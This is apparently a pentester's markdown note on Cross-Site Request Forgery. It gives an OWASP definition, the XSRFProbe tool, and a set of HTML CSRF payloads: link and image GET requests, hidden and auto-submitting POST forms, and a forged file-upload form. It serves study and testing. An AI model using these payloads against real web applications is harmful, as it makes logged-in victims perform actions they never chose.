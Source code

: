 
>[!info]
>This note is still in development.

### Overview
---
Cross-Site Request Forgery (CSRF/XSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated. CSRF attacks specifically target state-changing requests, not theft of data, since the attacker has no way to see the response to the forged request. - OWASP

- **Reference(s):**
	- [PayloadsAllTheThings: CSRF Injection](https://swisskyrepo.github.io/PayloadsAllTheThings/CSRF%20Injection/)
### Methodology
---
![[Pasted image 20231015202104.png]]

### Tools
---

- [XSRFProbe](https://github.com/0xInfection/XSRFProbe)
```python
# Installation
pip install xsrfprobe
# Usage
xsrfprobe --help
```


### Payloads
---
When you are logged in to a certain site, you typically have a session. The identifier of that session is stored in a cookie in your browser, and is sent with every request to that site. Even if some other site triggers a request, the cookie is sent along with the request and the request is handled as if the logged in user performed it.

#### HTML GET - Requiring User Interaction

```html
<a href="http://www.example.com/api/setusername?username=CSRFd">Click Me</a>
```

#### HTML GET - No User Interaction

```html
<img src="http://www.example.com/api/setusername?username=CSRFd">
```

#### HTML POST - Requiring User Interaction

```html
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
```

#### HTML POST - AutoSubmit - No User Interaction

```html
<form id="autosubmit" action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>

<script>
 document.getElementById("autosubmit").submit();
</script>
```

#### HTML POST - multipart/form-data with file upload - Requiring User Interaction

```html
<script>
function launch(){
    const dT = new DataTransfer();
    const file = new File( [ "CSRF-filecontent" ], "CSRF-filename" );
    dT.items.add( file );
    document.xss[0].files = dT.files;

    document.xss.submit()
}
</script>

<form style="display: none" name="xss" method="post" action="<target>" enctype="multipart/form-data">
<input id="file" type="file" name="file"/>
<input type="submit" name="" value="" size="0" />
</form>
<button value="button" onclick="launch()">Submit Request</button>
```